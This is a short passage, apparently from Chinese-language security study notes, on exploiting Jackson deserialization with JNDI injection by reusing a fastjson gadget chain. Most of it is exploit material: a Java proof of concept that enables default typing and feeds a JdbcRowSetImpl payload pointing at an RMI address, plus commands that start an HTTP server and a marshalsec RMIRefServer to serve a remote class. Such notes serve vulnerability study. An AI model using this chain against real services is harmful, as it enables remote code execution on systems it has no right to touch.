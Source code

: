 ## JNDI

既然Jackson和fastjson反序列化都是去调用setter方法，那么fastjson的利用链在Jackson理应可用

只需要改一下json格式

```
package Jackson;

import com.fasterxml.jackson.databind.ObjectMapper;

public class unser {
    public static void main(String[] args) throws Exception{
        ObjectMapper objectMapper =new ObjectMapper();
        String poc = "[\"com.sun.rowset.JdbcRowSetImpl\",{\"dataSourceName\":\"rmi://127.0.0.1:1099/exp\",\"autoCommit\":true}]";
        objectMapper.enableDefaultTyping();
        objectMapper.readValue(poc,Object.class);
    }


}
```

python3 -m http.server 8888

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://127.0.0.1:8888/#exp
```

![image-20220914162122142](images/25.png)
